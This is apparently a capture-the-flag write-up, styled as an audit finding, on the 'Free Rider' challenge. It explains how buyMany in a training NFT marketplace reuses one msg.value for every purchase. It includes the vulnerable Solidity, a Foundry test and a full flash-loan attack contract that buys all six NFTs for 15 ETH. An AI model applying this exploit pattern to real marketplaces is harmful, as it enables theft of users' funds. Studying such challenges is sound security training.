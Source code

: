 ## High Severity Issues

### [H-1] `msg.value` Persistence Exploit in `buyMany` Function

**Description:** The `FreeRiderNFTMarketplace` protocol lists 6 NFTs for sale at 15 ETH each. A vulnerability in the `buyMany` function allows an attacker to purchase all 6 NFTs for only 15 ETH. The issue arises because the `msg.value` check in the `_buyOne` function does not account for the cumulative cost of multiple NFTs within the loop, allowing an attacker to bypass payment requirements for subsequent NFTs after the initial 15 ETH. The protocol owner has announced a bounty of 45 ETH for anyone who purchases the NFTs and transfers them to the recovery manager.

```javascript
function buyMany( uint256[] calldata tokenIds ) external payable nonReentrant {
        for (uint256 i = 0; i < tokenIds.length; ++i) {
            unchecked {
                _buyOne(tokenIds[i]);
            }
        }
    }

function _buyOne(uint256 tokenId) private {
        uint256 priceToPay = offers[tokenId];

        if (priceToPay == 0) {
            revert TokenNotOffered(tokenId);
        }

        if (msg.value < priceToPay) {
            revert InsufficientPayment();
        }

        --offersCount;

        DamnValuableNFT _token = token; 

        _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

        payable(_token.ownerOf(tokenId)).sendValue(priceToPay);

        emit NFTBought(msg.sender, tokenId, priceToPay);
    }
```

**Impact:** An attacker can exploit this vulnerability to acquire all 6 NFTs for only 15 ETH, resulting in a significant financial loss for the protocol (a shortfall of 75 ETH). This undermines the protocol's economic model and trust in its security.

**Proof of Concept:**

```javascript
function testOfferMany() public {
        uint256[] memory tokenIds = new uint256[](6);
        for (uint256 i = 0; i < mintAmount; i++) {
            tokenIds[i] = i;
        }

        uint256[] memory prices = new uint256[](6);
        for (uint256 i = 0; i < mintAmount; i++) {
            prices[i] = 15;
        }

        vm.startPrank(marketPlaceOwner);
        nft.setApprovalForAll(address(marketPlace), true);
        marketPlace.offerMany(tokenIds, prices);
        vm.stopPrank();

        vm.startPrank(address(resolver), address(resolver)); // sets both msg.sender and tx.origin
        pool.flashLoan(IERC3156FlashBorrower(resolver), 15 ether, "");
}
```

**Recommended Mitigation:**

1. Track the `msg.value` properly to ensure that the total payment matches the sum of all NFT prices in the `buyMany` function, preventing exploitation of the loop.

Recovery Contract:

```javascript
contract Resolver is IERC721Receiver, IERC3156FlashBorrower {
    FreeRiderNFTMarketplace public marketpalace;
    FreeRiderRecoveryManager public recoveryManager;
    DamnValuableNFT public nft;

    constructor(FreeRiderNFTMarketplace _marketPlace) {
        marketpalace = _marketPlace;
        nft = marketpalace.token();
    }

    function setRecoveryManager(
        FreeRiderRecoveryManager _recoveryManager
    ) external {
        require(address(recoveryManager) == address(0), "already-set");
        recoveryManager = _recoveryManager;
    }

    function onFlashLoan(
        address,
        address,
        uint256 amount,
        uint256,
        bytes calldata
    ) external override returns (bytes32) {
        uint256[] memory tokenIds = new uint256[](6);

        for (uint256 i = 0; i < 6; i++) {
            tokenIds[i] = i;
        }

        marketpalace.buyMany{value: amount}(tokenIds);
        for (uint256 i = 0; i < 6; i++) {
            bytes memory data = i == 5
                ? abi.encode(address(this))
                : new bytes(0);
            nft.safeTransferFrom(
                address(this),
                address(recoveryManager),
                i,
                data
            );
        }

        // Repay flash loan

        SafeTransferLib.safeTransferETH(msg.sender, amount); // optimized one , Recommended

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    receive() external payable {}

    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) external override returns (bytes4) {
        return this.onERC721Received.selector;
    }
}
```
